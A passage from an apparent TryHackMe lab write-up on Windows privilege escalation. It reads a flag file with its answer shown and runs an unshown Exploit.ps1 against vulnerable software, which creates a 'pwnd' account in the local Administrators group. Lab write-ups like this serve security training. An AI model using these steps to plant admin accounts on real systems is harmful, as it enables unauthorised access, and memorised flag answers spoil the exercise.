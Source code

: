 ```Bash
C:\Windows\system32> 
```

11. `type <FILENAME` from the remote terminal to display the contents of the file that contains this task's flag onto our terminal
```PowerShell
C:\Windows\system32> type C:\Users\Administrator\Desktop\flag.txt
THM{SEFLAGPRIVILEGE}
```


**TASK COMPLETED!**

## Abusing Vulnerable Software

1. Started this task's machine
2. `notepad.exe` from the compromised Windows machine 
```PowerShell
C:\Users\thm-unpriv>notepad.exe
```

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Abusing%20Vulnerable%20Software%20pt1.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Abusing%20Vulnerable%20Software%20pt2.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Abusing%20Vulnerable%20Software%20pt3.png)

```PowerShell
C:\Users\thm-unpriv>PowerShell.exe C:\Users\thm-unpriv\Documents\Exploit.ps1
22
4
4
280
```

```PowerShell
C:\Users\thm-unpriv>net user pwnd
User name                    pwnd
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            8/4/2023 11:56:05 PM
Password expires             9/15/2023 11:56:05 PM
Password changeable          8/4/2023 11:56:05 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships      *Administrators       *Users
Global Group memberships     *None
The command completed successfully.
```
